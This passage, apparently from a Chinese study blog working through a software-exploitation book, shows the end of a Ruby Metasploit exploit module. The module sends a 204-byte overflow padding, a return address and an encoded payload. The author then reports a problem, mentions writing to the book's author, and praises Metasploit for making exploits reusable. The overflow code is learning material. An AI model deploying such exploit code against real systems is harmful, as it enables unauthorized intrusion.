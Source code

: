 ```ruby
	end 

	def exploit
		connect
		attack_buf = 'a' * 204 + [target['Ret']].pack('V') + payload.encoded
		sock.put(attack_buf)	
		handler
		disconnect
	end  
end
```

![Screen Shot 2018-06-25 at 3.59.58 PM.png]({{ site.url }}/images/0day/6A27B7AB8D7F91AA1472D59E8CD52331.png)

这里出了状况。具体的描述可以看我发给failwest前辈的E-mail：[tofailWest](quiver:///notes/490CFB9F-33DD-45B4-86C3-AD917EA5B0F4)。不过目前尚未得到前辈的回复。

## 用MSF发布PoC

越来越多的PoC会用MSF的exploit模块方式发布。后面我将专门学习Metsasploit（[笔记](quiver:///notes/3CFB188A-4123-419E-8769-F7C1C3C442C8)）的使用并掌握它！

## 总结

可以发现，Metasploit比我们前几章的苦力轻松方便多了！工欲善其事，必先利其器。

另外，Metasploit的使用会让你的思维发生飞跃——hacking gadgets可以变得可积累、可重用。总之，它非常值得进一步学习。

Hacking is FUN!!!
